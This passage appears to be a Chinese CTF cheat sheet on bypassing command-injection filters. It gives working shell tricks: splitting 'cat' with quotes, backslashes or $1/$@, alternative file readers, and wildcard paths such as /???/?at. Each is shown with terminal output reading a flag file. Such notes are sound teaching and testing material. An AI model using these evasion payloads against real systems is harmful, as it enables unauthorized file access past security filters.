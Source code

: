 > ##### 单引号、双引号

```cmd
root@kali:~# c""at fl''ag
this is your flag
```

> ##### 反斜线

```cmd
root@kali:~# c\at fl\ag
this is your flag
```

> ##### $1、$2等和$@

```cmd
root@kali:~# c$1at gh$@tef01.txt
hello ghtef01
nice blckder02
```

> #### 读文件绕过

当 cat 被过滤时，可以使用如下命令代替：

```php
more:一页一页的显示档案内容
less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
```

> #### 通配符绕过

一个``?``代表一个字符，``*``代表若干字符。 

例如：

```cmd
root@kali:~# /???/?[a][t] ?''?''?''?''
this is your flag
xx
cc
xa
/bin/cat: test: 是一个目录
root@kali:~# /???/?at flag
this is your flag
xx
cc
xa
root@kali:~# /???/?at ????
this is your flag
xx
cc
xa
/bin/cat: test: 是一个目录
root@kali:~# /???/?[a]''[t] ?''?''?''?''
this is your flag
xx
cc
xa
/bin/cat: test: 是一个目录
```